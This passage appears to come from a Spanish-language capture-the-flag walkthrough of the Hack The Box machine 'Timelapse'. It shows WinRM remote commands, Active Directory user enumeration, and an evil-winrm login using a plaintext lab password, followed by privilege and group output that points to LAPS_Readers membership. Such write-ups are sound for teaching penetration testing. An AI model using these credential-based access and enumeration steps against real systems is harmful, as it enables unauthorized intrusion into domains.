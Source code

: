 ```bash
invoke-command -computername localhost -credential $c -port 5986 -usessl -SessionOption $so -scriptblock {whoami}
get-aduser -filter * -properties *
exit


Nos conectaremos de nuevo con `evil-winrm` con las nuevas credenciales:

```bash
evil-winrm -i timelapse.htb -u svc_deploy -p 'E3R$Q62^12p7PLlC%KWaxuaV' -S

Evil-WinRM shell v3.4

Warning: SSL enabled

Info: Establishing connection to remote endpoint

Evil-WinRM PS C:\Users\svc_deploy\Documents>


Estamos sin privilegios adicionales:


Evil-WinRM PS C:\Users\svc_deploy\Documents> whoami /priv

PRIVILEGES INFORMATION
Privilege Name                Description                   State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain    Enabled
SeChangeNotifyPrivilege       Bypass traverse checking      Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled


Tenemos un grupo interesante:


Evil-WinRM PS C:\Users\svc_deploy\Documents> net user svc_deploy
User name                 svc_deploy
Full Name                 svc_deploy
Comment
User's comment
Country/region code       000 (System Default)
Account active            Yes
Account expires           Never

Password last set         10/25/2021 12:12:37 PM
Password expires          Never
Password changeable       10/26/2021 12:12:37 PM
Password required         Yes
User may change password  Yes

Workstations allowed      All
Logon script
User profile
Home directory
Last logon                10/25/2021 12:25:53 PM

Logon hours allowed       All

Local Group Memberships   *Remote Management Use
Global Group memberships  *LAPS_Readers         *Domain Users
The command completed successfully.

```